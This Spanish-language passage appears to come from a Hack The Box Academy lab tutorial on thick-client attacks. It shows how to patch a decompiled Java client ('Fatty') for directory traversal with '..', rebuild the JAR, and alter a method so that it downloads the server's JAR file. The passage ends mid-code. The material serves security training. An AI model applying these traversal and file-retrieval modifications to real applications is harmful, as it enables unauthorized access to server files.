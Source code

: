 Podemos reemplazar el nombre de la carpeta `configs` por `..` de la siguiente manera:

```r
ClientGuiTest.this.currentFolder = "..";
  try {
    response = ClientGuiTest.this.invoker.showFiles("..");
```

A continuación, compila el archivo `ClientGuiTest.Java`.

```r
C:\> javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java
```

Esto genera varios archivos de clase. Crea una nueva carpeta y extrae el contenido de `fatty-client.jar` en ella.

```r
C:\> mkdir raw
C:\> cp fatty-client-new.jar raw\fatty-client-new-2.jar
```

Navega al directorio `raw` y descomprime `fatty-client-new-2.jar` haciendo clic derecho y seleccionando `Extract Here`. Sobrescribe los archivos `.class` existentes en `htb/fatty/client/gui/*.class` con los archivos actualizados.

```r
C:\> mv -Force fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\
```

Finalmente, construye el nuevo archivo JAR.

```r
C:\> cd raw
C:\> jar -cmf META-INF\MANIFEST.MF traverse.jar .
```

Inicia sesión en la aplicación y navega a la opción `FileBrowser` -> `Config`.

![traverse](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/traverse.png)

Esto es exitoso. Ahora podemos ver el contenido del directorio `configs/../`. Los archivos `fatty-server.jar` y `start.sh` parecen interesantes. Al listar el contenido del archivo `start.sh`, observamos que `fatty-server.jar` se está ejecutando dentro de un contenedor Docker Alpine.

![start](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/start.png)

Podemos modificar la función `open` en el archivo `fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java` para descargar el archivo `fatty-server.jar` de la siguiente manera:

```r
import java.io.FileOutputStream;
<SNIP>
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
```